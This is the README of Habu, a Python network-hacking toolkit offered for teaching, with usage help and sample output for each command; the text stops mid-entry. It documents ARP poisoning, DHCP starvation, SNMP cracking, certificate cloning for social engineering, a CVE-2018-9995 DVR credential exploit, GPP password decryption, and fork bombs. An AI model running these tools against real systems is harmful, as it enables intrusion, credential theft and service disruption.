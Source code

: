 Habu: Hacking Toolkit
=====================

I'm developing Habu to teach (and learn) some concepts about Python and
Network Hacking.

Some techniques implemented in the current version are:

* ARP Poisoning
* ARP Sniffing
* DHCP Discover
* DHCP Starvation
* Fake FTP Server
* LAND Attack
* SNMP Cracking
* Subdomains Identification
* SSL/TLS Certificate Cloner
* SYN Flooding
* TCP Flags Analysis
* TCP ISN Analysis
* TCP Port Scan
* Username check on social networks
* Virtual Hosts Identification
* Web Techonologies Identification

The development of this software is supported by Securetia SRL (https://www.securetia.com/)

Usage Videos
------------

The following Youtube Playlist has videos that shows the installation
and usage:

https://www.youtube.com/watch?v=rgp9seLLyqE&list=PL4HZnX8VnFXqSvNw7x-bXOn0dgxNdfnVD

Telegram Group
--------------

If you want to discuss some Habu features, possible improvements, etc,
you can use the Habu Telegram Group: https://t.me/python_habu

Issues and pull requests must be sent to github repo:
https://github.com/portantier/habu

Installation
------------

**Kali Linux:**

You can install the package created for Kali Linux. See
https://github.com/portantier/habu/releases

**Python Package (PyPi):**

Habu is on PyPi, so you can install it directly with pip:

```
$ pip3 install habu
```

**Microsoft Windows**:

Install it with the pip method.

Get Help
--------

All the commands implement the option '--help', that shows the help,
arguments, options, and default values.

Verbose Mode
------------

Almost all commands implement the verbose mode with the '-v' option.
This can give you some extra info about what habu is doing.

Commands Index
--------------

* `arp.ping <#habuarpping>`_
* `arp.poison <#habuarppoison>`_
* `arp.sniff <#habuarpsniff>`_
* `asydns <#habuasydns>`_
* `b64 <#habub64>`_
* `cert.clone <#habucertclone>`_
* `cert.names <#habucertnames>`_
* `config.del <#habuconfigdel>`_
* `config.set <#habuconfigset>`_
* `config.show <#habuconfigshow>`_
* `contest <#habucontest>`_
* `crack.luhn <#habucrackluhn>`_
* `crack.snmp <#habucracksnmp>`_
* `crtsh <#habucrtsh>`_
* `cve.2018.9995 <#habucve20189995>`_
* `cymon.ip <#habucymonip>`_
* `cymon.ip.timeline <#habucymoniptimeline>`_
* `data.extract.domain <#habudataextractdomain>`_
* `data.extract.email <#habudataextractemail>`_
* `data.extract.fqdn <#habudataextractfqdn>`_
* `data.extract.ipv4 <#habudataextractipv4>`_
* `data.filter <#habudatafilter>`_
* `decrypt.gppref <#habudecryptgppref>`_
* `dhcp.discover <#habudhcpdiscover>`_
* `dhcp.starvation <#habudhcpstarvation>`_
* `dns.lookup.forward <#habudnslookupforward>`_
* `dns.lookup.reverse <#habudnslookupreverse>`_
* `eicar <#habueicar>`_
* `expand <#habuexpand>`_
* `fernet <#habufernet>`_
* `fernet.genkey <#habufernetgenkey>`_
* `forkbomb <#habuforkbomb>`_
* `fqdn.finder <#habufqdnfinder>`_
* `gateway.find <#habugatewayfind>`_
* `hasher <#habuhasher>`_
* `host <#habuhost>`_
* `http.headers <#habuhttpheaders>`_
* `http.options <#habuhttpoptions>`_
* `http.tech <#habuhttptech>`_
* `interfaces <#habuinterfaces>`_
* `ip <#habuip>`_
* `ip2asn <#habuip2asn>`_
* `ip.geolocation <#habuipgeolocation>`_
* `ip.internal <#habuipinternal>`_
* `isn <#habuisn>`_
* `jshell <#habujshell>`_
* `karma <#habukarma>`_
* `karma.bulk <#habukarmabulk>`_
* `land <#habuland>`_
* `nc <#habunc>`_
* `nmap.excluded <#habunmapexcluded>`_
* `nmap.open <#habunmapopen>`_
* `nmap.ports <#habunmapports>`_
* `ping <#habuping>`_
* `protoscan <#habuprotoscan>`_
* `select <#habuselect>`_
* `server.ftp <#habuserverftp>`_
* `shodan <#habushodan>`_
* `shodan.query <#habushodanquery>`_
* `synflood <#habusynflood>`_
* `tcpflags <#habutcpflags>`_
* `tcpscan <#habutcpscan>`_
* `traceroute <#habutraceroute>`_
* `usercheck <#habuusercheck>`_
* `version <#habuversion>`_
* `vhosts <#habuvhosts>`_
* `virustotal <#habuvirustotal>`_
* `web.report <#habuwebreport>`_
* `web.screenshot <#habuwebscreenshot>`_
* `whois.domain <#habuwhoisdomain>`_
* `whois.ip <#habuwhoisip>`_
* `xor <#habuxor>`_

habu.arp.ping
-------------

.. code-block::

    Usage: habu.arp.ping [OPTIONS] IP
    
      Send ARP packets to check if a host it's alive in the local network.
    
      Example:
    
      # habu.arp.ping 192.168.0.1
      Ether / ARP is at a4:08:f5:19:17:a4 says 192.168.0.1 / Padding
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose output
      --help   Show this message and exit.
    

habu.arp.poison
---------------

.. code-block::

    Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2
    
      Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
      send the traffic to your system.
    
      Note: If you want a full working Man In The Middle attack, you need to
      enable the packet forwarding on your operating system to act like a
      router. You can do that using:
    
      # echo 1 > /proc/sys/net/ipv4/ip_forward
    
      Example:
    
      # habu.arpoison 192.168.0.1 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      ...
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose
      --help   Show this message and exit.
    

habu.arp.sniff
--------------

.. code-block::

    Usage: habu.arp.sniff [OPTIONS]
    
      Listen for ARP packets and show information for each device.
    
      Columns: Seconds from last packet | IP | MAC | Vendor
    
      Example:
    
      1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
      7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
      2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
      6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd
    
    Options:
      -i TEXT  Interface to use
      --help   Show this message and exit.
    

habu.asydns
-----------

.. code-block::

    Usage: habu.asydns [OPTIONS]
    
      Requests a DNS domain name based on public and private RSA keys using the
      AsyDNS protocol https://github.com/portantier/asydns
    
      Example:
    
      $ habu.asydns -v
      Generating RSA key ...
      Loading RSA key ...
      {
          "ip": "181.31.41.231",
          "name": "07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org"
      }
    
      $ dig +short 07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org
      181.31.41.231
    
    Options:
      -u TEXT  API URL
      -g       Force the generation of a new key pair
      -r       Revoke the public key
      -v       Verbose output
      --help   Show this message and exit.
    

habu.b64
--------

.. code-block::

    Usage: habu.b64 [OPTIONS] [F]
    
      Encodes or decode data in base64, just like the command base64.
    
      $ echo awesome | habu.b64
      YXdlc29tZQo=
    
      $ echo YXdlc29tZQo= | habu.b64 -d
      awesome
    
    Options:
      -d      decode instead of encode
      --help  Show this message and exit.
    

habu.cert.clone
---------------

.. code-block::

    Usage: habu.cert.clone [OPTIONS] HOSTNAME PORT KEYFILE CERTFILE
    
      Connect to an SSL/TLS server, get the certificate and generate a
      certificate with the same options and field values.
    
      Note: The generated certificate is invalid, but can be used for social
      engineering attacks
    
      Example:
    
      $ habu.certclone www.google.com 443 /tmp/key.pem /tmp/cert.pem
    
    Options:
      --copy-extensions  Copy certificate extensions (default: False)
      --expired          Generate an expired certificate (default: False)
      -v                 Verbose
      --help             Show this message and exit.
    

habu.cert.names
---------------

.. code-block::

    Usage: habu.cert.names [OPTIONS] [NETWORK]
    
      Connects to each host/port and shows a summary of the certificate names.
    
      The hosts to connect to are taken from two possible options:
    
      1) -i option (stdin by default). A file where each line is a host or
      network 2) An argument that can be a host or network
    
      If you use both methods, the hosts and networks are merged into one list.
    
      Example:
    
      $ habu.cert.names 2.18.60.240/29
      2.18.60.241         443 i.s-microsoft.com microsoft.com privacy.microsoft.com
      2.18.60.242         443 aod-ssl.itunes.apple.com aod.itunes.apple.com aodp-ssl.itunes.apple.com
      2.18.60.243         443 *.mlb.com mlb.com
      2.18.60.244         443 [SSL: TLSV1_ALERT_INTERNAL_ERROR] tlsv1 alert internal error (_ssl.c:1056)
      2.18.60.245         443 cert2-cn-public-ubiservices.ubi.com cert2-cn-public-ws-ubiservices.ubi.com
      2.18.60.246         443 *.blog.sina.com.cn *.dmp.sina.cn
    
      aod.itunes.apple.com aodp-ssl.itunes.apple.com aod-ssl.itunes.apple.com
      *.blog.sina.com.cn cert2-cn-public-ubiservices.ubi.com cert2-cn-public-ws-
      ubiservices.ubi.com *.dmp.sina.cn i.s-microsoft.com microsoft.com
      *.mlb.com mlb.com privacy.microsoft.com
    
    Options:
      -p TEXT      Ports to connect to (comma separated list)
      -i FILENAME  Input file (Default: stdin)
      -t FLOAT     Time to wait for each connection
      -v           Verbose output
      --help       Show this message and exit.
    

habu.config.del
---------------

.. code-block::

    Usage: habu.config.del [OPTIONS] KEY
    
      Delete a KEY from the configuration.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.del DNS_SERVER
    
    Options:
      --help  Show this message and exit.
    

habu.config.set
---------------

.. code-block::

    Usage: habu.config.set [OPTIONS] KEY VALUE
    
      Set VALUE to the config KEY.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.set DNS_SERVER 8.8.8.8
    
    Options:
      --help  Show this message and exit.
    

habu.config.show
----------------

.. code-block::

    Usage: habu.config.show [OPTIONS]
    
      Show the current config.
    
      Note: By default, the options with 'KEY' in their name are shadowed.
    
      Example:
    
      $ habu.config.show
      {
          "DNS_SERVER": "8.8.8.8",
          "FERNET_KEY": "*************"
      }
    
    Options:
      -k, --show-keys   Show also the key values
      --option TEXT...  Write to the config(KEY VALUE)
      --help            Show this message and exit.
    

habu.contest
------------

.. code-block::

    Usage: habu.contest [OPTIONS]
    
      Try to connect to various services and check if can reach them using your
      internet connection.
    
      Example:
    
      $ habu.contest
      IP:    True
      DNS:   True
      FTP:   True
      SSH:   True
      HTTP:  True
      HTTPS: True
    
    Options:
      --help  Show this message and exit.
    

habu.crack.luhn
---------------

.. code-block::

    Usage: habu.crack.luhn [OPTIONS] NUMBER
    
      Having known values for a Luhn validated number, obtain the possible
      unknown numbers.
    
      Numbers that use the Luhn algorithm for validation are Credit Cards, IMEI,
      National Provider Identifier in the United States, Canadian Social
      Insurance Numbers, Israel ID Numbers and Greek Social Security Numbers
      (ΑΜΚΑ).
    
      The '-' characters are ignored.
    
      Define the missing numbers with the 'x' character.
    
      Reference: https://en.wikipedia.org/wiki/Luhn_algorithm
    
      Example:
    
      $ habu.crack.luhn 4509-xxxx-3160-6445
    
    Options:
      --help  Show this message and exit.
    

habu.crack.snmp
---------------

.. code-block::

    Usage: habu.crack.snmp [OPTIONS] IP
    
      Launches snmp-get queries against an IP, and tells you when finds a valid
      community string (is a simple SNMP cracker).
    
      The dictionary used is the distributed with the onesixtyone tool
      https://github.com/trailofbits/onesixtyone
    
      Example:
    
      # habu.crack.snmp 179.125.234.210
      Community found: private
      Community found: public
    
      Note: You can also receive messages like \<UNIVERSAL\> \<class
      'scapy.asn1.asn1.ASN1\_Class\_metaclass'\>, I don't know how to supress
      them for now.
    
    Options:
      -p INTEGER  Port to use
      -c TEXT     Community (default: list of most used)
      -s          Stop after first match
      -v          Verbose
      --help      Show this message and exit.
    

habu.crtsh
----------

.. code-block::

    Usage: habu.crtsh [OPTIONS] DOMAIN
    
      Downloads the certificate transparency logs for a domain and check with
      DNS queries if each subdomain exists.
    
      Uses multithreading to improve the performance of the DNS queries.
    
      Example:
    
      $ sudo habu.crtsh securetia.com
      [
          "karma.securetia.com.",
          "www.securetia.com."
      ]
    
    Options:
      -c      Disable cache
      -n      Disable DNS subdomain validation
      -v      Verbose output
      --help  Show this message and exit.
    

habu.cve.2018.9995
------------------

.. code-block::

    Usage: habu.cve.2018.9995 [OPTIONS] IP
    
      Exploit the CVE-2018-9995 vulnerability, present on various DVR systems.
    
      Note: Based on the original code from Ezequiel Fernandez (@capitan_alfa).
    
      Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9995
    
      Example:
    
      $ python habu.cve.2018-9995 82.202.102.42
      [
          {
              "uid": "admin",
              "pwd": "securepassword",
              "role": 2,
              "enmac": 0,
              "mac": "00:00:00:00:00:00",
              "playback": 4294967295,
              "view": 4294967295,
              "rview": 4294967295,
              "ptz": 4294967295,
              "backup": 4294967295,
              "opt": 4294967295
          }
      ]
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -v          Verbose
      --help      Show this message and exit.
    

habu.cymon.ip
-------------

.. code-block::

    Usage: habu.cymon.ip [OPTIONS] IP
    
      Simple cymon API client.
    
      Prints the JSON result of a cymon IP query.
    
      Example:
    
      $ habu.cymon.ip 8.8.8.8
      {
          "addr": "8.8.8.8",
          "created": "2015-03-23T12:03:42Z",
          "updated": "2018-08-24T04:06:07Z",
          "sources": [
              "safeweb.norton.com",
              "botscout.com",
              "virustotal.com",
              "phishtank"
          ],
          "events": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/events",
          "domains": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/domains",
          "urls": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/urls"
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.cymon.ip.timeline
----------------------

.. code-block::

    Usage: habu.cymon.ip.timeline [OPTIONS] IP
    
      Simple cymon API client.
    
      Prints the JSON result of a cymon IP timeline query.
    
      Example:
    
      $ habu.cymon.ip.timeline 8.8.8.8
      {
          "timeline": [
              {
                  "time_label": "Aug. 18, 2018",
                  "events": [
                      {
                          "description": "Posted: 2018-08-18 23:37:39 CEST IDS Alerts: 0 URLQuery Alerts: 1 ...",
                          "created": "2018-08-18T21:39:07Z",
                          "title": "Malicious activity reported by urlquery.net",
                          "details_url": "http://urlquery.net/report/b1393866-9b1f-4a8e-b02b-9636989050f3",
                          "tag": "malicious activity"
                      }
                  ]
              },
              ...
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      -p           Pretty output
      --help       Show this message and exit.
    

habu.data.extract.domain
------------------------

.. code-block::

    Usage: habu.data.extract.domain [OPTIONS] [INFILE]
    
      Extract valid domains from a file or stdin.
    
      Optionally, check each domain for the presence of NS registers.
    
      Example:
    
      $ cat /var/log/some.log | habu.data.extract.domain -c
      google.com
      ibm.com
      redhat.com
    
    Options:
      -c      Check if domain has NS servers defined
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.email
-----------------------

.. code-block::

    Usage: habu.data.extract.email [OPTIONS] [INFILE]
    
      Extract email addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.email
      john@securetia.com
      raven@acmecorp.net
      nmarks@fimax.com
    
    Options:
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.fqdn
----------------------

.. code-block::

    Usage: habu.data.extract.fqdn [OPTIONS] [INFILE]
    
      Extract FQDNs (Fully Qualified Domain Names) from a file or stdin.
    
      Example:
    
      $ cat /var/log/some.log | habu.data.extract.fqdn
      www.google.com
      ibm.com
      fileserver.redhat.com
    
    Options:
      -c      Check if hostname resolves
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.ipv4
----------------------

.. code-block::

    Usage: habu.data.extract.ipv4 [OPTIONS] [INFILE]
    
      Extract IPv4 addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4
      172.217.162.4
      23.52.213.96
      190.210.43.70
    
    Options:
      -j, --json    JSON output
      -u, --unique  Remove duplicates
      -v            Verbose output
      --help        Show this message and exit.
    

habu.data.filter
----------------

.. code-block::

    Usage: habu.data.filter [OPTIONS] FIELD OPERATOR [VALUE]
    
      Filter data based on operators.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4 | habu.data.enrich | habu.data.filter cc eq US
      [
          {
              "item": "8.8.8.8",
              "family": "ipv4_address",
              "asn": "15169",
              "net": "8.8.8.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          }
      ]
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --not        Negate the comparison
      --help       Show this message and exit.
    

habu.decrypt.gppref
-------------------

.. code-block::

    Usage: habu.decrypt.gppref [OPTIONS] PASSWORD
    
      Decrypt the password of local users added via Windows 2008 Group Policy
      Preferences.
    
      This value is the 'cpassword' attribute embedded in the Groups.xml file,
      stored in the domain controller's Sysvol share.
    
      Example:
    
      # habu.decrypt.gppref AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk
      testpassword
    
    Options:
      --help  Show this message and exit.
    

habu.dhcp.discover
------------------

.. code-block::

    Usage: habu.dhcp.discover [OPTIONS]
    
      Send a DHCP request and show what devices has replied.
    
      Note: Using '-v' you can see all the options (like DNS servers) included
      on the responses.
    
      # habu.dhcp_discover
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dhcp.starvation
--------------------

.. code-block::

    Usage: habu.dhcp.starvation [OPTIONS]
    
      Send multiple DHCP requests from forged MAC addresses to fill the DHCP
      server leases.
    
      When all the available network addresses are assigned, the DHCP server
      don't send responses.
    
      So, some attacks, like DHCP spoofing, can be made.
    
      # habu.dhcp_starvation
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -s INTEGER  Time (seconds) between requests
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dns.lookup.forward
-----------------------

.. code-block::

    Usage: habu.dns.lookup.forward [OPTIONS] HOSTNAME
    
      Perform a forward lookup of a given hostname.
    
      Example:
    
      $ habu.dns.lookup.forward google.com
      {
          "ipv4": "172.217.168.46",
          "ipv6": "2a00:1450:400a:802::200e"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.dns.lookup.reverse
-----------------------

.. code-block::

    Usage: habu.dns.lookup.reverse [OPTIONS] IP_ADDRESS
    
      Perform a reverse lookup of a given IP address.
    
      Example:
    
      $ $ habu.dns.lookup.reverse 8.8.8.8
      {
          "hostname": "google-public-dns-a.google.com"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.eicar
----------

.. code-block::

    Usage: habu.eicar [OPTIONS]
    
      Print the EICAR test string that can be used to test antimalware engines.
    
      More info: http://www.eicar.org/86-0-Intended-use.html
    
      Example:
    
      $ habu.eicar
      X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
    
    Options:
      --help  Show this message and exit.
    

habu.expand
-----------

.. code-block::

    Usage: habu.expand [OPTIONS]
    
      Expand data to add interesting information.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.expand
      [
          {
              "asset": "8.8.8.8",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.8.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          },
          {
              "asset": "8.8.4.4",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.4.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          }
      ]
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --help       Show this message and exit.
    

habu.fernet
-----------

.. code-block::

    Usage: habu.fernet [OPTIONS]
    
      Fernet cipher.
    
      Uses AES-128-CBC with HMAC
    
      Note: You must use a key to cipher with Fernet.
    
      Use the -k paramenter or set the FERNET_KEY configuration value.
    
      The keys can be generated with the command habu.fernet.genkey
    
      Reference: https://github.com/fernet/spec/blob/master/Spec.md
    
      Example:
    
      $ "I want to protect this string" | habu.fernet
      gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA...
    
      $ echo gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA... | habu.fernet -d
      I want to protect this string
    
    Options:
      -k TEXT        Key
      -d             Decrypt instead of encrypt
      --ttl INTEGER  Time To Live for timestamp verification
      -i FILENAME    Input file (default: stdin)
      -o FILENAME    Output file (default: stdout)
      --help         Show this message and exit.
    

habu.fernet.genkey
------------------

.. code-block::

    Usage: habu.fernet.genkey [OPTIONS]
    
      Generate a new Fernet Key, optionally write it to ~/.habu.json
    
      Example:
    
      $ habu.fernet.genkey
      xgvWCIvjwe9Uq7NBvwO796iI4dsGD623QOT9GWqnuhg=
    
    Options:
      -w      Write this key to ~/.habu.json
      --help  Show this message and exit.
    

habu.forkbomb
-------------

.. code-block::

    Usage: habu.forkbomb [OPTIONS] BOMB
    
      A shortcut to remember how to use fork bombs in different languages.
    
      Currently supported: bash, batch, c, haskell, perl, php, python, ruby.
    
      Example:
    
      $ habu.forkbomb c
      #include <unistd.h>
      int main()
      {
          while(1)
          {
              fork();
          }
          return 0;
      }
    
    Options:
      --help  Show this message and exit.
    

habu.fqdn.finder
----------------

.. code-block::

    Usage: habu.fqdn.finder [OPTIONS] [DOMAINS]...
    
      Uses various techniques to obtain valid FQDNs for the specified domains.
    
      1. Check for Certificate Transparency Logs () 2. Connect to specified
      ports, obtain SSL certificates and get FQDNs from them
    
      Next versions will also do the following:
    
      3. DNS Brute Force for common names 4. Try DNS Zone Transfer first
    
      The results are cleaned to remove FQDNs that does not resolve by DNS
    
      Example:
    
      $ habu.fqdn.finder educacionit.com
      azure-001.educacionit.com
      barometrosalarial.educacionit.com
      blog.educacionit.com
      blog2.educacionit.com
      ci.educacionit.com
      educacionit.com
      freelancerday.educacionit.com
      intranet.educacionit.com
      lecdev.educacionit.com
      lecdev2.educacionit.com
      lecweb.educacionit.com
      live.educacionit.com
      mail.educacionit.com
      noticias.educacionit.com
      plantillas.educacionit.com
      talentos.educacionit.com
      tsg-001.educacionit.com
      vmm-001.educacionit.com
      www.barometrosalarial.educacionit.com
      www.educacionit.com
      www.intranet.educacionit.com
      www.noticias.educacionit.com
      www.plantillas.educacionit.com
      www.talentos.educacionit.com
    
    Options:
      -p TEXT   Ports to connect to check for SSL certificates (comma separated
                list)
      -t FLOAT  Time to wait for each connection
      -v        Verbose output
      --json    Print the output in JSON format
      --help    Show this message and exit.
    

habu.gateway.find
-----------------

.. code-block::

    Usage: habu.gateway.find [OPTIONS] NETWORK
    
      Try to reach an external IP using any host has a router.
    
      Useful to find routers in your network.
    
      First, uses arping to detect alive hosts and obtain MAC addresses.
    
      Later, create a network packet and put each MAC address as destination.
    
      Last, print the devices that forwarded correctly the packets.
    
      Example:
    
      # habu.find.gateway 192.168.0.0/24
      192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
      192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
      192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom
    
    Options:
      -i TEXT                Interface to use
      --host TEXT            Host to reach (default: 8.8.8.8)
      --tcp                  Use TCP instead of ICMP
      --dport INTEGER RANGE  Destination port for TCP (default: 80)
      --timeout INTEGER      Timeout in seconds (default: 5)
      -v                     Verbose output
      --help                 Show this message and exit.
    

habu.hasher
-----------

.. code-block::

    Usage: habu.hasher [OPTIONS] [F]
    
      Compute various hashes for the input data, that can be a file or a stream.
    
      Example:
    
      $ habu.hasher README.rst
      md5          992a833cd162047daaa6a236b8ac15ae README.rst
      ripemd160    0566f9141e65e57cae93e0e3b70d1d8c2ccb0623 README.rst
      sha1         d7dbfd2c5e2828eb22f776550c826e4166526253 README.rst
      sha256       6bb22d927e1b6307ced616821a1877b6cc35e... README.rst
      sha512       8743f3eb12a11cf3edcc16e400fb14d599b4a... README.rst
      whirlpool    96bcc083242e796992c0f3462f330811f9e8c... README.rst
    
      You can also specify which algorithm to use. In such case, the output is
      only the value of the calculated hash:
    
      $ habu.hasher -a md5 README.rst
      992a833cd162047daaa6a236b8ac15ae README.rst
    
    Options:
      -a [md5|sha1|sha256|sha512|ripemd160|whirlpool]
                                      Only this algorithm (Default: all)
      --help                          Show this message and exit.
    

habu.host
---------

.. code-block::

    Usage: habu.host [OPTIONS]
    
      Collect information about the host where habu is running.
    
      Example:
    
      $ habu.host
      {
          "kernel": [
              "Linux",
              "demo123",
              "5.0.6-200.fc29.x86_64",
              "#1 SMP Wed Apr 3 15:09:51 UTC 2019",
              "x86_64",
              "x86_64"
          ],
          "distribution": [
              "Fedora",
              "29",
              "Twenty Nine"
          ],
          "libc": [
              "glibc",
              "2.2.5"
          ],
          "arch": "x86_64",
          "python_version": "3.7.3",
          "os_name": "Linux",
          "cpu": "x86_64",
          "static_hostname": "demo123",
          "fqdn": "demo123.lab.sierra"
      }
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.http.headers
-----------------

.. code-block::

    Usage: habu.http.headers [OPTIONS] SERVER
    
      Retrieve the HTTP headers of a web server.
    
      Example:
    
      $ habu.http.headers http://duckduckgo.com
      {
          "Server": "nginx",
          "Date": "Sun, 14 Apr 2019 00:00:55 GMT",
          "Content-Type": "text/html",
          "Content-Length": "178",
          "Connection": "keep-alive",
          "Location": "https://duckduckgo.com/",
          "X-Frame-Options": "SAMEORIGIN",
          "Content-Security-Policy": "default-src https: blob: data: 'unsafe-inline' 'unsafe-eval'",
          "X-XSS-Protection": "1;mode=block",
          "X-Content-Type-Options": "nosniff",
          "Referrer-Policy": "origin",
          "Expect-CT": "max-age=0",
          "Expires": "Mon, 13 Apr 2020 00:00:55 GMT",
          "Cache-Control": "max-age=31536000"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.http.options
-----------------

.. code-block::

    Usage: habu.http.options [OPTIONS] SERVER
    
      Retrieve the available HTTP methods of a web server.
    
      Example:
    
